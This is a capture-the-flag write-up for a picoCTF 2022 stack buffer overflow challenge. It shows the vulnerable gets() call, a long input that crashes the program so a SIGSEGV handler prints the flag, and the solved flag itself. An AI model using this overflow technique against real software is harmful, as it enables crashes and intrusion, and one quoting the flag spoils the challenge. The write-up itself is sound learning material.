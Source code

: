 #pico2022 #binaryexploitation 

## Challenge:
```md
Smash the stack Let's start off simple, can you overflow the correct buffer? The program is available [here](https://artifacts.picoctf.net/c/520/vuln). You can view source [here](https://artifacts.picoctf.net/c/520/vuln.c). And connect with it using: `nc saturn.picoctf.net 53935`
```

## Process:
First step was to wget the program and source.
```bash
wget -q https://artifacts.picoctf.net/c/520/vuln # Program
wget -q https://artifacts.picoctf.net/c/520/vuln.c # Source
```
#wget 

Then I ran the given netcat command.
```bash
nc saturn.picoctf.net 53935
```
#netcat  #nc 

Then I made the given vuln program executable.
```bash
chmod +x vuln
```
#chmod

Running the *vuln* program resulted in:
	Please create 'flag.txt' in this directory with your own debugging flag.Please create 'flag.txt' in this directory with your own debugging flag.

After this I decided to take a look at the vuln.c file.

Within this file I noticed how the flag would be printed. It's handled in a **sigsegv_handler()** function. 

```c
void sigsegv_handler(int sig) {
  printf("%s\n", flag);
  fflush(stdout);a
  exit(1);
}

...

signal(SIGSEGV, sigsegv_handler);
```
#c

SIGSEGV stands for *segmentation fault*. A segmentation fault is an error raised by memory-protected hardware whenever it tries to access a memory address that is either restricted or does not exist.
#segmentationfault

On line 40 of the c file the **gets()** function is called.
```c
gets(buf1)
```
#c 

This reads the *buf1*, the user's input, onto the stack. The **gets()** function will write the user's input to the stack without regard for its allocated length. The user  can then overflow the length resulting in a segmentation fault.

So I ran...
```shell
nc saturn.picoctf.net 53935
Input: aaaaaaaaaaaaaaaaaaaaaaaaaaa
```
#netcat #nc

Which resulted in the flag being given.

**Flag: *picoCTF{ov3rfl0ws_ar3nt_that_bad_a065d5d9}***